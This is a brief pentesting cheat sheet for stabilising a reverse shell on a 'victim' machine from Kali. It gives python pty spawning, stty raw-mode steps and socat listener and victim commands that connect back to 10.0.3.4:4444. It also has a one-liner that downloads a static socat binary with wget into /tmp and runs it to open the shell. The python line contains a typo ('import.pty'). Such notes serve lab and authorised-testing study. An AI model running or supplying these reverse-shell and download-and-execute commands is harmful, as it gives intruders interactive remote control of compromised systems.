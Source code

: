 Spawn bash on reverse shell

	python -c 'import.pty;pty.spawn("/bin/bash")'

Background the reverse shell

	ctrl + Z

Back in Kali

Get terminal info, take note of TERM type and size of TTY(rows;columns)

	echo $TERM
	stty -a

Change stty settings to raw and echo input

	stty raw -echo

Foreground the reverse shell(Will reopen the nc)

	fg

Reinitialize the terminal

	reset

Match current window

	export SHELL=bash
	export TERM=x256-color (might be diff)
	stty rows 38 columns 116 (might be diff)

----------------------------------

Listen on Kali

	socat file:`tty`,raw,echo=0 tcp-listen:4444

Launch on victim

	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

Standalone 1 liner if does not have socat installed

	wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  



# Upgrade Shell to Interactive

---



~~~bash
ctrl z

stty raw -echo

fg
~~~